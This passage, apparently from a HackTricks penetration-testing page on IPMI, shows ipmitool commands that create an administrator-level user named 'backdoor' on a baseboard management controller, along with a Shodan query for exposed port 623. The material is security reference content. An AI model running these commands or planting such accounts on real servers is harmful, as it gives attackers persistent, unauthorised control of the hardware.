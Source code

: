 ```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```

### Shodan

* `port:623`

<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>


<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>




<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>




<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>




<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>




<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>




<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>




<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>




<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>


